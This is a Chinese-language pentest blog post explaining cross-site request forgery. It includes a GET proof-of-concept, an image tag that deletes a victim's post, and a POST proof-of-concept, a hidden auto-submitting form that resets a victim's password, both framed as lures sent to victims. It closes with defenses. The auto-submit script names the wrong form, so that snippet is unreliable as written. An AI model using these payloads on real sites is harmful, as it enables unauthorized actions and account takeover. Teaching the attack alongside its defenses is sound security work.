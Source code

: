+++
date = "2016-06-28T09:21:34+08:00"
description = ""
draft = false
tags = ["csrf"]
title = "CSRF"
topics = ["Pentest"]

+++

### 0x00 概念
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;当你登陆某个网站时，通常浏览器与网站都会形成一个会话，在会话没有结束时你可以执行发表文章、发邮件、
删除文章等操作，若会话结束，你再操作的话会提示你会话已经结束，请重新登陆。  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;CSRF就是：攻击者通过一些技术手段欺骗用户的<font color="FF0000">浏览器</font>去<font color="FF0000">访问</font>一个自己曾<font color="FF0000">认证过</font>的网站并<font color="FF0000">执行某些操作</font>。也可以说CSRF就是黑客利用受害者的Cookie骗取服务器的信任从而执行某些操作

### 0x01 利用
* 利用条件
    * 攻击者可以得知url的所有参数项并了解其含义
    * 诱导用户访问构造好的POC

* 利用地方
    * 操作是有意义的(比如:修改密码等)
    * 验证过于简单(参数固定、我们可以设置参数)

### 0x02 GET型CSRF攻击
> ```
若有论坛www.aa.com，论坛删除文章的操作是请求类似
http://www.aa.com/opt.php?id=135&act=del&name=Tom的链接
```
> ```
有用户A，他登陆了论坛，且有篇文章id为251，那么他的浏览器此时已经取得了论坛的信任
```
> ```
此时有hacker用户B，他构造了一个html为b.html，b.html内容如下：
<html>
<head>
    <title>test</title>
</head>
<body>
    <img src="http://www.aa.com/opt.php?id=251&act=del&name=A" />
</body>
</html>
将b.html放在他自己搭建的网站上，网址为http://www.bb.com/b.html
```
```
恶意用户B将链接http://www.bb.com/b.html通过qq发送给用户A，
诱使他访问，用户A一旦访问，他id为251的文章就会被删除
```

### 0x03 POST型CSRF攻击
> 若网站www.xx.com有让用户修改密码的功能，但验证过于简单，形如下图：
{{% fluid_img src="/img/post/csrf_post.png" alt="csrf_post利用.png" %}}
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>aa</title>
</head>
<body>
    <form action="http://172.23.10.200/setpasswd.php" method="post">
        昵称：<input type="text" name="nickname" id="nickname" value="xxxxx">
        用户名：<input type="text" name="name" id="name" value="xiaoming">
        密码：<input type="passwd" name="passwd" id="passwd" value="">
        确认密码：<input type="rpasswd" name="rpasswd" id="rpasswd" value="">
        <input type="submit" name="button" value="提交">
    </form>
</body>
</html>
```
此时我们就可以构造自动提交表单的xxxx.html，内容如下：
```html
<html>
<head>
    <title>aa</title>
</head>
<body>
    <form name="csrf" action="http://172.23.10.200/setpasswd.php" method="post">
        <input type="hidden" name="passwd" id="passwd" value="666666">
        <input type="hidden" name="rpasswd" id="rpasswd" value="666666">
    </form>
    <script>
        setTimeout("document.form8320.submit()",100);
    </script>
</body>
</html>
```
然后将连接http://www.bb.com/xxxx.html 发送给用户,诱使他点击链接,一旦他点击,则密码就会被修改

### 0x04 防御：
* 对于修改密码的表单可以要求输入原密码  
* 二次确认(如删除用户、转账等重要操作弹窗要求用户确认)
* Token认证  
    * GET操作请求：可以在Cookie中存储Token  
    * POST操作请求：可以在form表单中添加一个隐藏的input标签，value值为Token
* 验证Referer
